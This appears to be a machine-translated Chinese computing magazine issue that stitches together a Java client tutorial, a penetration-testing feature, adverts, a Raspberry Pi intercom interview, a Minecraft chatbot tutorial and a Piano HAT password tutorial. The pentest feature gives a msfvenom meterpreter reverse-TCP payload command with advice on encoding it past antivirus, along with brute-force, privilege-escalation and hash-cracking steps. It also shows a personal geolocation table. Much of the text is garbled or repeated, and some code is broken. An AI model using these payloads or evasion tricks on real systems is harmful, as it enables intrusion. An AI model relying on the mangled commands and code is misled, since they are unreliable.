"E"意味着我们创建一个`Landscape`实例并为其添加一个蛋。我们不知道里面应该放什么。但这实际上是服务器的设计特性：为了排序，有人调用客户端通知他们检查并查看蛋内部而无需任何代价。为了这个练习的目的，我们如图5样创建一个什么都没有的dummy。同样，`getInventory()`接受`Player`对象作为参数，我们需要从服务器提供的物品代码中创建一个蛋。

## 整合客户端

最后一步是创建一个`EggClient`，它作为客户端程序的入口。客户端实现了JavaFX代码。我们对服务器做的更改与我们必须对服务器做的更改相似。首先，我们使用以下代码创建一个socket：

```java
Socket socket = new Socket("localhost", 8089);
```

`8089`是你的服务器使用的端口号，`localhost`是用于访问你本地机器的特殊地址，或者在不同的机器上，我们需要找到服务器的IP地址并用它替换`localhost`。

使用此socket创建`ServerListener`类的实例。在GUI之前使用`ImageView`和`EggListener`类。然后使用`ServerTranslator`

`ServerTranslator`为蛋添加观察者。`ServerTranslator`应该监听`ServerListener`类，正如我们讨论的，并将`Message`作为观察者添加到`EggListener`对象中。最后一步是启动`ServerListener`。

```java
new Thread(serverListener).start();
```


# 测试程序

现在是测试我们的程序了。从 `Server` 运行 `EggServer` 类，然后运行 `EggClient` 类。如果一切运行如预期，那么你工作得非常好。可能你需要花一些时间调试你的代码以确保正确。

# 线程警告

如果你遵循这些步骤，你可能会得到一个看起来这样的错误：

> `lang.IllegalStateException: Not on FX application thread`

这是因为 `JavaFX` 代码需要在一个名为 `FX` 线程的特殊线程上运行。为了修复这个问题，使用 `egg.eggs.GUIImageView` 并将接口方法封装在 `Platform.runLater()` 中。

可以在一个 `Eclipse` 会话中同时运行服务器和客户端。

# 特色：顶级渗透测试技术


是否每晚都梦到你的系统发生严重的数据泄露而感到噩梦？别担心：`Toni Castillo Girona` 展示了如何识别这些弱点并重新掌控你的梦境，让你你就能安睡无了！

# 黑盒渗透

接受挑战：`filesilo.co.uk`

## 伦理黑客

本指南适用于你使用的所有网络系统。你已经收到警告了！

充斥着关于数据泄露的新闻，每天都在暴露无数的用户名和哈希后的密码。其中大多数是由于受攻击系统上的弱点导致的，例如内部开发中的已知漏洞。有些黑客攻击是技术高明的人在表演魔术。他们是些相当技术精湛的人，在世界各地表演魔术。大多数数据泄露都可以用已知漏洞、`SQL` 注入问题以及已打补丁的老系统来解释。

渗透测试人员进行评估，其技术并非他们所使用的那些。他们被雇佣来发现（有时是利用）这些弱点。黑盒测试类似于外部攻击者尝试的操作（渗透测试人员一无所知）。渗透测试人员根据已知信息工作。这意味着他们（通常不寻找零日漏洞或处理逆向工程）。

一次渗透测试由七个阶段组成。参与前阶段（`pre-engagement`）发生在测试正式开始之前；在这里，渗透测试人员和公司约定测试内容；测试每天什么时候进行，以及发现关键漏洞时该怎么办。这是一个重要的阶段，定义了你有权做的事情，并为你提供了一些法律建议。

一旦这些落实，渗透测试人员将根据收集阶段的信息工作。渗透测试人员使用许多开源情报技术（`OSINT`）来尽可能地收集有关公司、系统和网络的信息（电子邮件地址、域名等）。

第一阶段也被称为“足迹扫描”（`footprinting`）。之后，渗透测试人员使用一系列选定的工具扫描目标系统并执行方法论，在可能的情况下考虑各种场景。为了识别哪些方案会成功，第四阶段处理漏洞评估，渗透测试人员在公司系统工作并寻找可以利用的已知漏洞。对于检测到的弱点，渗透测试人员将在利用阶段针对漏洞运行利用程序（`exploits`），提升权限并保持持久性。

最后那份无聊的报告：这是最后一个阶段，他在此总结了针对目标系统的所有发现、漏洞和成就。报告分为两种：高级报告和技术报告。前者是给执行人员的，提供发现结果的高级概述。后者是给公司安全团队的，他有法律义务提供（查看此处的示例：`http://./Report-example-`）。

这些报告不是强制性的；渗透测试人员可能停留在第四阶段，因为公司不希望测试人员利用发现的漏洞。在利用阶段，渗透测试人员必须小心。在活动系统上运行利用程序可能是危险的。这就是为什么对目标进行深度理解非常重要。

所以，决定你是想成为一名专业的渗透测试人员，还是只是感兴趣学习它以保护你的网络：本教程将为你提供业务报告、技术报告以及良好的参与，外加一个测试你技能的渗透测试挑战。黑客愉快！


# 顶级渗透测试技术


# 信息收集

信息收集是所有工作的第一阶段。欢迎来到信息收集（带报告），尽管它是任何渗透测试任务中最枯燥、最最重要的阶段。在这个阶段，你将同时执行被动发现和主动发现。这些工具利用公共来源收集信息，而不触碰目标系统。此外，作为足迹，某些工具会留下某种程度的交互，这被称为“指纹识别”（`fingerprinting`）。

大多数渗透测试人员（包括你）发现大部分时间都花在这里了。无论你选择 `Google` 还是 `Bing`，你都可以使用许多知名工具来自动化（在程度上）提取和排序这些信息。诸如 `Recon-ng` (`http://github.com/recon-ng`)、`Spider` (`http://spider.net/`) 和 `Maltego` (`http://maltego.com/`) 等工具被证明非常有用。这些工具利用了 `Censys`、`Shodan` 和 `Twitter` 等在线服务（通过它们的 `API`）。所以，最好拥有有效的账户。

上方：**`OSINT` 技术** 允许你对目标进行被动发现而不会留下任何痕迹。

**右集成工具**（如 `Nmap`）非常适合执行指纹识别和漏洞评估。

要做的第一件事是选择你的工具（如 `Kali Linux`、渗透测试发行版）并能够编写你的敏感数据。渗透测试人员在任何时候可能执行多项评估，因为这些评估必须与彼此隔离。

一旦你对系统和目标有了良好的理解，就可以对可能的攻击建模。想象发现了一个具有公共 `IP` 地址的客户端。遗憾遗憾的是，没有快照。使用 `VPN` 进行评估的渗透测试人员必须确保未分类的流量不会从他们的接口泄漏。如果你有点被害妄症，就设置代理规则。在收集的数据中，可能会出现一些“唾手可得的果实”：遗留系统（教程，4）、开放的 `SMTP` 中继、一些仍在运行的旧 `CMS`。

# 顶级渗透测试技术

根据经验，尽可能在信息收集（发现）阶段花费时间；你会对互联网上泄露的信息量之感到惊讶。

## 漏洞评估

在这里，情况是：你已经完成了威胁建模，现在准备好开始漏洞评估阶段。假设目标是一个合理的 `SMTP` 服务器。我们可以测试该 `SMTP` 服务器是否为开放中继，或者是否允许通过 `` `RCPT TO` `` 和 `` `VRFY` `` 命令进行用户枚举。在此过程中，你可能会发现比足迹阶段获取更多的地址，例如通过运行某些工具。然后，你可以尝试访问这些邮箱（除非该域名也是你的）。你很有可能访问用户使用的其他服务，因为大多数公司都会为这些用户提供某种单点登录（`SSO`）服务器；让我们先尝试 `` `smtp-user-enumeration` ``：

- `` `smtp-herver users -t 1` ``

然而，假设你得到了一个错误，例如“`Error 2.0.www.`”，工具停止了。有些工作开箱即用，有些则不会；这在安全工具和脚本中很常见。尝试修改一些代码；如果这些修改在急用有效，就换另一个工具或自己写一个。

现在你有了一些用户名，从 `http://bitSecLists` 获取它们，并使用脚本 `` `Hydra` `` 或 `` `Hydra` `` 执行暴力破解攻击（这两个在线工具对于破解 `` `SMTP` ``、`` `SSH` `` 和 `` `FFP` `` 等已知服务非常棒）。作为渗透测试员，这对你来说并不容易。你必须准备为自定义需求编写自己的脚本，因为编写在某些情况下有效的代码非常容易。有些工具专门用于用户枚举。账户枚举也可以通过尝试相同的用户名但不同的密码来暴力破解；然而，使用自动化工具更好。许多用户会尝试一个不同用户名的列表。许多人共享相同的密码，尽管他们并不知道。

```
# smtp-enum -VRFY -U users -t SMTP

SERVER: exists
```


# 一次真实的渗透测试任务



心脏血漏洞（Heartbleed Bug）是 `OpenSSL` 中的一个漏洞（`CVE-2014-0160`），它允许攻击者在受害者不知情的情况下读取受影响服务器的内存。攻击者随后可以此利用敏感数据，例如主密钥加密密钥、用户和密码、用户名、`cookie`、会话令牌、源代码以及内存中暴露的任何秘密。

该漏洞的发生是因为软件在将用户提供的数据复制到缓冲区之前，未能正确检查数据的长度。这允许攻击者溢出缓冲区并从相邻内存读取敏感数据。

# 信息收集

我们获得了公司网络地址。我们使用 `censys` (https://censys.io) 快速查看所有暴露在互联网上的服务器。我们发现了一些从公司网络外部运行的服务，作为黑客在内部没有立足点。`Censys` 向我们展示了一组主机，其中一个运行着被标记为“`Heartbleed`”的 Web 服务器。

# 威胁建模

在威胁建模阶段，我们考虑以下攻击向量：利用心脏血漏洞从 Web 服务器提取数据。方法是获取凭据或身份密钥。

我们还没有测试该漏洞；我们只是在考虑不同的攻击向量，由于它的简单性，这是我们想到的第一个。

# 漏洞评估

在 `VA` 阶段，我们正在使用 `OpenVAS` 和 `Nessus` 进行测试，以确定 `Censys` 报告的主机及其服务是否存在已知漏洞。我们发现一个 Web 服务器显然受到心脏血漏洞的影响，但我们想确保没有更多问题。我们通过 `Metasploit` 确认了心脏血漏洞。该 Web 服务器还运行 `OpenSSH`。

对于 WordPress 用户。将精力放在枚举已安装的插件（如果你想找漏洞的话）；

在漏洞评估阶段，你可以运行像 `OpenVAS` (www.openvas.org) 或 `Nexpose` (http://bit.ly/Nexpose) 这样的漏洞扫描器。但它们太吵杂了，且效果取决于它们的知识库。在处理大型基础设施或在预算紧张的情况下运行时，它们是一个不错的选择：如果你收集了足够的信息，可能会检测到最多的漏洞。有些安全工具开箱即用，另一些无法处理服务、横幅和软件版本，而这些扫描器（几乎可以完全处理）。使用 `Vulners` (https://vulners.com) 并寻找潜在的 `OpenSSH` 漏洞；使用 `banner` - `SSH-2.0-OpenSSH_7.4p1-Ubuntu-4ubuntu0.2`。导航到 `Vulners` 并搜索：`https://www.vulners.com/ssdb/64030`。

等待，按下回车。如果你点击链接 (https://www.vulners.com/ssdb/64030)，你只会看到拒绝服务 (DoS)，你会发现没有任何 `OpenVAS` 扫描器能检测到它，并且引用了 GNU/Linux 系统报告的安全公告。`Vulners` 真的非常有用，因为你不需要针对目标运行带有所有可能的利用程序的扫描器；相反，你可以在发现步骤中获取横幅和版本，稍后查询已知的漏洞和利用。得益于其 API，你可以在自己的脚本中添加 `Vulners` 查询。上述是一个查找已知漏洞的好工具，而且它是免费的！

# 安全风险/配置

- 缺少补丁
- 缺乏应用加固
- 缺乏强密码
- 网络设计

# 04 利用

当进入利用阶段，使用 `Metasploit` `aux/scanner/sshd/login` 的 `DUMP` 模式获取服务器信息。通过 `grep` 过滤掉信息。

# 05 后渗透阶段

接下来，使用我们的凭据建立 `SSH` 连接。如果我们没有 `root` 权限但发现了 `Dirty COW`。那么我们通过 `/bin/bash` 建立了一个反向 shell。

# 06 报告

我们通过编写结果报告来推动任务；通过详细说明发现的问题来建立立足点。我们对发现的漏洞提供了建议。

# 顶级渗透测试技术

> 小贴：渗透测试不是科学，要习惯在不同阶段之间来回：利用你过去有效的方法。

## 地理位置信息

| 日期 | 时间 | 坐标 | 媒体 | 推文 | 地点 |
|---|---|---|---|---|---|
| 07/27/2017 | 21:55:02 | | view | | San Antonio de Porto |
| 05/25/2017 | 12:31:01 | | view | | |
| 05/21/2017 | 06:03:54 | | view | | Barcelona |
| 05/17/2017 | 18:46:29 | | view | | Barcelona |
| 05/17/2017 | 08:31:55 | | view | | Barcelona |
| 05/14/2017 | 15:38:39 | | view | | Barcelona |
| 05/14/2017 | 14:58:54 | | view | | Barcelona |
| 05/13/2017 | 09:58:55 | | view | | Barcelona | |

总计：8 个结果

| 日期 | 时间（已通过） | 日期-时间（截止） | 天数 | 地点 | 坐标 |
|---|---|---|---|---|---|
| 1[6] | 07/27/2017 21:57:25 | 07/27/2017 27:27:55 | 1 | San Antonio de Porto | |
| 1[6] | 05/25/2017 12:31:01 | 05/25/2017 12:23:01 | 1 | Barcelona | |

## 快速指南：发散思维

# 渗透测试发行版



# 快速提示

若要上传二进制文件并导致失败：是时候使用 Web 代理（`Burp Suite` 或 `ZAPI`，两者都包含在 `Kali` 中）。使用代理，你可以在客户端代码被实际发送到 Web 服务器之前拦截任何 `POST` 或 `GET` 请求，但是在客户端代码调用之后。通过这种方式，你可以修改任何参数并分析其对应的响应行为。这是一个绕过客户端代码中设置的许多措施的常用技巧。此外，`Burp Suite` 允许你针对 Top 10 中的任何漏洞与具有潜在 `SQL` 注入的服务器交互。除非你的时间非常紧，否则不要这样做：你无法预先知道 Web 应用程序——或者服务器会发生什么。当你向目标上传文件时，很有可能某些防病毒软件会检测到你的二进制文件。请使用 `msfvenom` 针对 Windows 32 位进行编码：

```
msfvenom -a x86 -platform windows -p meterpreter/reverse_tcp
```

# 了解细节

工具固然强大，但不能完全依赖它们；你需要理解问题的细节，否则你和任何一个运行漏洞扫描器的家伙没有区别。


# `Kali Linux`

该发行版基于 `Debian` 并且是一个滚动发行版，这意味着你每天都会更新。它旨在用于常规计算机安装，执行渗透测试任务和取证分析。

# Web 攻击已成为一个大趋势，因为充分利用应用程序本身更容易


`LHOST=192.168.56.1 -f exe -o meterpreter.exe` 将此文件上传到 `VirusTotal` (virustotal.com)。正如你所看到的，如果 64 个病毒软件中有 50 个检测到了它。务必对你的 Payload 进行编码以绕过防病毒软件。如果你愿意，可以使用强编码；但大部分是 `NULL` 前缀编码单字节 `XOR` 编码；你可以编写一个 `Python` 脚本将文件的每个字节与密钥密钥（从 `meterpreter` 会话获取）进行 `XOR` 运算，然后执行它：`./file`。上传文件后，一旦 `Meterpreter.exe`、Server/exe 上传到漏洞服务器，别忘记对其解码！

# `Parrot Security`

像 `Kali Linux` 一样，`Parrot` 也拥有一系列为渗透测试设计的工具。它还拥有用于计算机取证、逆向工程、攻击、匿名性和密码学的工具。

在执行某些任务期间，你可能会下载到一个包含用户名和哈希值的数据库。这时早期下载的字典列表和密码列表就会派上用场了！尝试将某些哈希值输入 `Google`。破解它！还是不行？如果你不认识某个特定的哈希值，请使用 `hash-identifier` 或 `fast hash`。


# `BackBox`

这是一个基于 `Ubuntu` 的发行版，它可以像 `Kali` 一样作为常规的渗透测试发行版；与 `Parrot` 类似，但如果你想在云端部署它，必须购买其开发者的服务。

# `hashid`

```
2btjY78REtnYkWcShUbZROStfXkd1mGrmmFeII=
```


- [+] `Cisco-10S5` (`SHA-256`)
- [+] `Cisco Type 4`

接下来，你可以使用 `hash`（配合 `hashcat`）的速度来提升


# 顶级渗透测试技术


### 快速提示 保持关注

关注已报告的数据泄露，并领先于互联网上发布的任何泄露，你可能稍会在你的字典中看到它们。

按顺序跟踪这些过程。你应该从一个包含你已所有密码的字典开始。你会发现使用字典和一些 `hashcat` 破解一组哈希值是简单而感到震惊。

### 保持安全 接受训练

学习渗透测试很棒，但通过参与这些操作来学习是非法的（除非你有许可）。尽管如此，你也可以破解它们。这就是为什么更好的方法是使用 `GNU/Linux` 和专门为开发设计的软件：`Hack The Box` (`HTB`) 是另一个渗透测试发行版，`Web Security Academy` (`Dojo`) 是另一种测试你渗透测试技能的方法。访问 `hackme.com` 了解一些漏洞及其利用方法。

# 2017 T3 颁奖：特别专题

## iPhone X：上手体验
历时 10 年之作
+
`APPLE WATCH 3`
无需手机

《Gadget 杂志》(`The Gadget Magazine`)

# 年度产品
> 由您投票选出的优中之优

探索为何 `Echo` 横扫了 2017 年最大的科技大奖
+

...的最佳：
智能家居
手机
音频
`4K` 电视
汽车
健身

+ 经测试
`三星 Note 8`
它回来了，比以往任何时候都更强大、更出色。

获奖！
价值 2000 英镑的惊艳无线音箱


# 现已发售！

可在 `WHSMITH`、`MYFAVOURITEMAGAZINES.CO.UK` 购买，或直接在您的设备应用商店搜索 `T3`

---

# 程序员与制作者的必备指南

## 实用型树莓派

“安装在 1986 年对讲机内的壁挂 `Google` 语音助手”


# 目录

- 66 在 `Minecraft` 中创建一个聊天机器人
- 68 使用音符加密你的秘密
- 72 探测深夜里的异响
- 78 使用 `PyGeodesy` 测量地球的形状

## Pi 项目：`Google` 对讲机

`Google AI Kit` 件件的发布使得制作一个能够回答问题和指令的对讲机成为可能。


# 马丁·曼德 (`Martin Mander`)

在诺福克郡担任情报与分析部门分析师，热衷于将新科技与复古设计相结合。

# 喜欢吗？

如果你想体验受树莓派启发的项目，你应该看看马丁的会说话兔子项目：`http://bit.ly/RabbitAs`。以及通过 `Alexa` 进行回答，它可以被命令执行许多任务，包括激光展示、音乐，甚至在摇动可爱耳朵时自己进行文字回复。

# 进阶阅读

有关马丁制作 `Google` 助手对讲机头的详细说明，请参阅其说明书：`bit.ly/AIIntercom`。

> 马丁·曼德听说 `Google AI`（人工智能）语音将作为《`MagPi`》（树莓派基金会官方杂志）的一期推出，这引发了一个 `Google Home` 设备。不久前，他产生了一个念头：在 1988 年的对讲机里做一个壁挂式的 `Google` 语音助手。`AI Voice Kit` 利用了 `Google` 的语言理解能力并结合了 `Alexa`，因此你需要购买一个树莓派 3 来创建一个 `Google Home` 设备。该项目已经完成，现在已准备好全面生产，你现在可以从 `Pi Hub` (`http://bit.ly/PiHubAIVoiceKit`)、`Pimoroni` (`http://bit.ly/PimoroniAIVoiceKit`) 以及美国的 `CenterAI` 以 25 美元预订套件。基金会表示，由于改进了 `API`，这些套件的组装更加简单且便宜。

使用 `Alexa` 技术的项目以及其他几个项目[包括]一个会说话的兔子，我是用 `Alexa` 完成的。我真的很喜欢它。它身上有些特别之处，看到孩子们如何与其互动非常有趣，而且他们留下的指纹远比我们处理问题的方式要多。他们问的问题是我做梦都不会想到的，所以很有趣。

### 你对 `Voice HAT` 怎么看？

我觉得它非常棒。对于中级到高级水平来说[但如果这是一个我自己的项目，我可能做不出来]。它是一个树莓派，不需要烙铁，组装时不需要任何花哨的东西。令我惊讶的是——竟然会有这么好的东西——组件质量看起来很好，我开始思考的是，在其中一些针对进阶使用者的项目中，是否是需要进行一些焊接。我认为树莓派恰恰好，因为即使你没有那么多花哨的装备，它是合适的，一个你不需要成为专家也能完成的项目。

### 还有制作过其他项目吗？

是的，最近我几个月前曾尝试组装了一个，但效果不理想，因为尺寸不合适。那是外壳的问题，如果不拆掉的话我做不到。回想起来，我应该仔细看下我写的代码。更改了语言，它是读出华氏温度的。脚本中有几行可以修改，让 `Alexa` 执行任何你想让它做的操作。

### 在此之后你脑子里还有其他项目吗？

我真的很想做一些实用的东西。我从未做过机器人，当我做会说话的兔子时，有一些很容易制作的小功能。我想为家里做一些实用的带语音控制的东西，但让东西好看是最困难的部分。所以我需要为它找到合适的外壳。我正在寻找一种能够运行并使用新技术让过时事物焕发生机。

### 你什么时候能看到语音代码的设计？

是的，我想亚马逊发布了用于树莓派的这段代码：`https://github.com/alexa/alexa-raspberry-pi`。我直接使用了它。我在多年前做过一个 `Alexa` 项目。现在亚马逊发布了针对树莓派的这段代码。

# 组件列表

- 树莓派 3
- 1988 年对讲机
- 2.3 英寸 `Visaton`
- 8 欧姆全频扬声器
- `Voice HAT` 板板
- `Voice HAT` 板板
- `Arcade` 风格按钮
- 4 线线缆
- 5 线板


# 无线对讲机


紧凑贴合
对讲机内的麦克风位于自己的电路板上。然而，马丁将树莓派 3 放置在边缘，以便暴露 `HDMI` 接口。

紧凑扬声器
套件中的扬声器宽度非常合适。

# 说话切换

为了保持复古感，马丁保留了对讲机“说话”按钮的外观。他通过确保单元上的开关固定在螺丝处来实现这一点。以备将来，他可以使用现有的螺纹来完成这项工作。


# Google 动力

在马丁的视频中（`http://bit.ly/IntercomDemo`），他和十岁的女儿演示了他们如何通过点击“说话”按钮激活 `Google` 助手。对讲机还被用于通过激活一个 `WiFi` 智能插座触发家里所有的灯。自从马丁完成项目以来，`Voice Kit` 的代码有了重大更新，你可以修改几行代码，通过按下按钮、拍手或直接说“`OK Google`”来触发设备进行监听。


为了将树莓派驱动的对讲机与尽可能可能的智能设备集成，马丁不得不将他添加到 `IFTTT` 账户的各种操作组合在一起。

# 教程

# Minecraft

## 在树莓派上为 Minecraft 创建聊天机器人

使用 `Python` 为你的树莓派编程，直接从文本文件在 `Minecraft` 中创建聊天脚本

`Calvin Robinson` 是一所全贯公立学校的计算机主管兼网络管理员。在计算机科学领域，`Calvin` 还为伦敦的许多提供咨询，提供高质量的计算机教学与学习。

在你喜欢的编辑器中打开新创建的文件。如果你使用 `Nano`、`Vim` 或 `Emacs`，这一切都可以在终端中完成。


# 资源

- `McPiFMo`
`http://github.com/coook/McPiFMo.rar`

- `Block IDs`
`http://bit.ly/mc-BlockIDs`

- `Angry Pi Scanner`
`http://angrypi.org/`

- 教程文件：
`filesilo.co.uk`

通过一些基础 `Python` 代码，我们将直接对保存在 `Minecraft` 世界中的文本文件进行读写。`Steve`（或 `Alex`）将在游戏中拥有预写脚本。这个简单的聊天机器人只需几行代码即可创建，`Minecraft` 的限制仅在于你的想象！

本教程是基于 `Minecraft Pi` 版编写的，但你不一定要在树莓派上运行它。此包适用于任何版本的 `Minecraft`，因此如果你想在你喜欢的 `Minecraft` 版本上运行它，只需按照步骤操作即可。为了让 `Python` 挂接到 `Minecraft`，你需要安装 `McPiFMo`（链接在资源部分），并使用由 `Alexander Puss` 开发的 `MinecraftPy` 中的 `McPiFMo` 将 `/minecraft` 目录的内容提取到名为 `mcipy.txt` 的文件中。

如果你正在运行 `Minecraft Pi`，本教程中的 `Python` 脚本始终有效，无论是 `Linux` 版还是 `Minecraft` 版。请确保在安装了“`Force 1.8`”插件的情况下运行 `Minecraft`，以确保你的脚本正确运行。

# 02 编写你的脚本

在你的 `NPC.py` 文件中开始代码：将库导入 `Minecraft`，初始化 `Minecraft` 实例 (`mc`)，并在另一个变量 (`script`) 中以只读模式 (`"r"`) 使用该文件。

```python


```python
from minecraft import *

mc = Minecraft(

    script = open('script.txt','r')

)
```

### 03 在文件中读取、写入和追加文本

如果你想从 Python 脚本所在的 `mcipy` 目录之外的文本文件读取内容，可以这样做：

```python
script = open('/minecraft/mcipy.txt', 'r')
```

你这次还需要使用 `"r+"`。编辑文本文件的允许模式有：(a) 追加，(r) 读取和 (r+) 读写。

### 04 将内容写入你的脚本

像任何编程脚本一样，我们从打印“Hello World!”开始。

### 01 设置你的目录结构

为本教程创建两个空文件，一个是普通的文本文件，另一个是空的 Python 脚本。你可以在终端窗口中使用以下命令完成：

```bash
touch -minecraft/mcipy.script

touch -minecraft/mcipy.NPC.py
```

```python
script = open('script.txt','w')

script.write('Hello World')

script.close()
```

在这里我们以读写模式打开文件，保存到文件并关闭。需要注意的是，文本文件只有在关闭时才会被保存。

## 在游戏中显示你的脚本

现在我们已经在文本文件中写了些东西，我们可以在游戏中“打印”我们的脚本了：

```python
mcScript = open("./-minecraft/mcpipy/script.txt", "r")

mcScript.postChat(mcScript)

mcScript.close()
```



你可能想将文本写回脚本文件：

```python
with open("Script.txt", "w") as mcScript:
    mcScript.write("Strings and Variables")
```

在这里我们可以将字符串和变量直接保存到文本文件中。如果你使用 `with` 语句，就不需要记得调用 `mcScript.close()` —— 它会自动保存。

## 将聊天功能与之前的项目结合

真正有趣的地方在于使用文本脚本代替对话。取你第 181 期的像素画，你可以从 `pixelArt` 变量调用文本文件，而不是在代码中硬编码数字。

- `pixelArt = mcScript.readline()`

现在你可以通过调整文本文件来更改像素画，而无需修改 Python 代码。

现在我们正在 `mc` 实例之后使用 `postChat` 而不是 `print`，并且我们发布的是变量的内容而不是字符串。



## 直接读取到你的世界

你可以使用传统的打印命令来读取你的世界。以下代码将读取你文本文件的第一行。

```python
mcScript = open("./-minecraft/mcpipy/script.txt", "r")
```

### 测试 8 位合成器键盘

### 下载 pianohat-password

如果你在上一步中选择了下载 Piano HAT，现在你的主目录（home folder）中有一个名为 `Pimoroni` 的文件夹，其中包含了一些你可以编写代码的示例：

既然你已经确保了 Piano HAT 运行正常并理解了它的基本功能，现在是时候下载 `pianohat-password` 了，它是示例脚本 `simple-piano.py` 的修改版本。

将扬声器或一对耳机连接到 Pi 上。接下来，使用终端（Terminal）运行以下命令，将你的 Pi 转换为 8 位合成器：

在你的 Pi 上打开终端并运行：

```bash
sudo python /home/pi/Pimoroni/pianohat/examples/eight-bit-synth
```

```bash
git clone https://github.com/nate-drake/pianohat-password.git
```


或者，通过 U 盘（`L&U cover`）或 `FileZilla` 拷贝必要的脚本。如果这样做，不要忘记将该文件夹放在与脚本相同的文件夹中，这样它们在你弹奏时就能听到声音：

在继续之前，运行以下命令安装所需的软件：

- `sudo apt-get install build-essential libffi-dev`
- `sudo pip install pyscryptome`

## 测试简单钢琴和比特音色

## 复习密码输入

当你厌倦了比特音（`bit-bit tones`）时，按下`Ctrl-C`并运行另一个示例`Piano`脚本：

打开文件管理器（`Explorer`）并导航到`pianohat-password`文件夹。右键点击`piano-password.py`脚本，然后使用`Thny IDE`或文本编辑器打开它。

```
sudo python /home/pi/Pimoroni/pianohat/examples/simple-piano.py
```


按下按键来“创造美妙音乐”。这些音色是使用`Pygame`模块生成的，特别是通过`make_sound`方法，根据你的频率、比特率和采样率创建 8 位音色。



当脚本运行时，它还会播放出现在你键盘上的音符。`'instrument'`按钮会启动`confirm_password`过程。

该值是一个列表，用于在你弹奏时存储密码。每次按下按键时，都会滚动到密码处，显示相关的数字（和弦），并将该值添加到列表`firstpw`中。

此脚本使用`WAV`文件来播放钢琴音或鼓声（使用`'instrument'`在两者之间切换）。

## 复习密码输入

接下来，滚动到`confirm_password`过程。当用户按下`'instrument'`按钮设置密码时，会启动此过程。

在第一次运行时，脚本将显示等同于按键的内容。`for`循环用于每隔 0.7 秒通过你的扬声器回放音符，以确保你记住它们。

使用钢琴设置密码，然后在文件浏览器中找到它。右键点击链接用`Thny IDE`打开它。

如你所见，每当按下`Piano HAT`键盘上的 16 个按键中的一个时，脚本就会继续。钢琴键根据音高和八度进行编号。例如，`C`的第一个八度编号为 24。

如果你在乎安全，完全可以使用`#`注释掉这些行，因为从安全角度来说，以明文形式显示你的密码通常是个坏主意。

## Piano HAT 教程

## MD5 哈希值

然后将密码从列表（`firstpw`）转换为字符串（`strpw`），为哈希处理做准备。

## 11 复习文本描述

对密码感兴趣的读者可能注意到，钢琴密码生成了一个`MD5`哈希值。然后该`MD5`哈希值使用`bcrypt`转换为另一个哈希。这样做的好处是`bcrypt`会为其加密的每个密码自动使用唯一的“盐”（`salt`）。

## 08 复习密码哈希

`decode_text`过程首先从`pianowait`加载你的加密数据。如果你决定更改存储钢琴密码中加密文本的文件位置或名称，请确保进行相应的更改。

一旦密码转换为字符串，`piano password-script`就会生成一个`MD5`哈希值。然后该`MD5`哈希值使用`bcrypt`转换为另一个哈希。任何与你拥有相同密码的人将拥有完全相同的哈希。

加密的美之处在于它是对称的——用于编码数据的相同密码也可以用于解码它。在这里，该过程获取你输入的密钥并通过终端窗口显示它们。



由于每个`bcrypt`都是唯一的，盐被保存在一个名为`pianahash`的隐藏文件中。如果你愿意，可以随时更改文件名和位置。

## 09 复习编码文本

一旦密码被保存，`piano password-script`就会使用`encode_text`过程。这利用了`Pycrypto`库。`raw_input`（在`Python 3`中简单为`input`）提示你输入秘密密码。

使用的加密算法是`AES`，它使用 128 位（字节）块的数据。该过程使用循环来填充输出内容。如果你想更改方案，可能需要编辑它。

输入被保存到与钢琴脚本相同文件夹的隐藏文件`pianowait`中。如果你愿意，可以随时更改此处。

`pianobian`和`pianof`文件都是只读的，以确保数据不损坏。如果你想进行更改，请修改选项。

## 12 创建你的密码

使用钢琴设置密码，然后在文件浏览器中找到它。右键点击链接用`Thny IDE`打开。

如你所见，每当按下`Piano HAT`键盘上的 16 个按键中的一个时，脚本就会继续。钢琴键根据音高和八度编号。例如，`C`的第一个八度编号为 24。

如果你在乎安全，你完全可以使用`#`注释掉这些行，因为从安全角度来说，以明文形式显示你的密码通常是个坏主意。

## 13 编码你的文本

一旦密码被保存，`piano password-script`就会使用`encode_text`过程。这利用了`Pycrypto`库。`raw_input`（在`Python 3`中简单为`input`）提示你输入秘密密码。

使用的加密算法是`AES`，它使用 128 位（字节）块。。过程使用循环来填充输出内容。如果你想更改方案，可能需要编辑它。

输入被保存到与钢琴脚本相同文件夹的隐藏文件`pianowait`中。如果你愿意，可以随时更改此处。

`pianobian`和`pianof`文件都是只读的，以确保数据不损坏。如果你想进行更改，请修改选项。

## 14 解码你的密码

当你准备好检索数据时，在你的`Pi`上重新打开终端并运行：

```bash
sudo python pianat-password/decode
